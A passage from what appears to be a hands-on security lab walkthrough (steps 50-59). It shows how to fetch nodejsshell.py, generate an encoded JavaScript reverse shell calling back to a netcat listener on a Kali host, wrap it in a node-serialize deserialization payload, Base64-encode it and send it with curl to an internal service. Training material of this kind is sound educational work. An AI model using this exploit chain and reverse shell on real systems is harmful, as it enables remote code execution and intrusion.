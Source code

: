 50. Grab a copy of `nodejsshell.py` from GitHub. It's written for Python 2.7, as opposed to Python 3.

    ```shell
    url="https://raw.githubusercontent.com/ajinabraham"
    curl -LO ${url}/Node.Js-Security-Course/master/nodejsshell.py
    ```

51. Try using `nodejsshell.py` to create an encoded JavaScript reverse shell that will connect back to a netcat listener on TCP port 9999 your Kali system, which has IP address 10.23.58.30:

    ```shell
    python2.7 nodejsshell.py 10.23.58.30 9999
    ```

52. Wait - it looks like the part we need out of this output is just one line, which begins with "eval". Try grabbing just that line and putting it into a variable called `middle`:

    ```shell
    middle=$( python2.7 nodejsshell.py 10.23.58.30 9999 | grep eval )
    ```

53. Now, we need to build a JavaScript object that has that code in a function. Let's construct that string step by step. First, create a variable called `beginning` that has the same preamble block of code that we saw in the exploit writeup.

    ```shell
    beginning='{"rce":"_$$ND_FUNC$$_function (){  '
    ```

54. Next, create a variable called `end` that has the end of the block we saw in the write-up.

    ```shell
    end='}()"}'
    ```

55. Finally, put these three strings together and Base64-encode them:

    ```shell
    echo "${beginning}${middle}$end" | base64 -w 0 ; echo ""
    ```

56. Copy the string from the last command's output. 

57. Switch to the terminal window/tab where you have your Meterpreter session.

58. Now use that exploit as your Base64-encoded seat object - you can use this curl command, but you need to put the string from the previous step at the end of it.

    ```shell
    curl http://seatpop.private.svc.cluster.local/popularity?seat=
    ```

59. Now go back to the window where you have netcat listening on TCP port 9999. Observe that you have a connection. Here's the output on our test system:

    ```
    Connected!
    ```
